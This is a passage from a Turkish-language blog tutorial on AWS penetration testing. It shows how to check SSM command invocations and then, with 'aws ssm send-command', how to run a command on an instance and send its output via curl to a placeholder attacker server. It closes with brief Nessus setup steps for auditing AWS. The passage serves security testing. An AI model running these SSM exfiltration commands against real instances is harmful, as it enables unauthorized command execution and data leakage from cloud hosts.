 Buradaki CommandId değerini aşağıdaki komutta kullanarak yürütülen komut hakkında (bu senaryo için whoami) bilgi edinebilirsiniz.
```python
aws ssm list-command-invocations --command-id "[CommandId]" --details
```

Bu komutlar bizlere saldırının başarılı olup olmadığı bilgisini verse de yürütülen komutun çıktısını vermeyecektir. Bunun için aşağıdaki komutu kullanarak çıktının açtığımız bir uzak sunucuya gönderilmesini sağlayabiliriz.
```python
aws ssm send-command --instance-ids "[instanceid]" --document-name "AWS-RunShellScript" --comment "whoami" --parameters commands='curl [AttackerServerIP]`whoami`' --output text --region=us-east-1
```
AWS CLI'daki diğer SSM parametreleri ile ilgili detaylı bilgi almak için AWS'nin kendi <a href="https://docs.aws.amazon.com/cli/latest/reference/ssm/send-command.html" target="_blank">dokümantasyonuna</a> göz atabilirsiniz.

## Yardımcı Araçlar
Tüm bu süreçlerde yardımımıza koşan pek çok araç elbette var. Zaten yazı içerisinde pek çok araçtan bahsettim. Bu başlık altında yalnızca All In One araçlardan bahsedeceğim. Fakat bu araçların detaylarına fazla inmeyeceğim. Zaten blogpost'ta yer alan her bir aracın kendi dokümantasyonları oldukça detaylı.

### Nessus
İlk olarak vaz geçilmezimiz Nessus ile de AWS ortamlarımızın güvenliğini test edebileceğimizi hatırlatayım. Bunun için aşağıdaki adımlar izlenmelidir.
- İlk olarak AWS üzerinden Read-Only bir grup oluşturulmalıdır.
- Oluşturulan gruba bir User eklenir.
- Eklenen User'ın keyleri Nessus'a verilerek tarama yapılabilir.

Detaylı açıklama için Nessus'un kendi <a href="https://docs.tenable.com/integrations/AWS/Content/Audit/AuditAWSEnvironment.htm" target="_blank">dokümantasyonunu</a> inceleyebilirsiniz.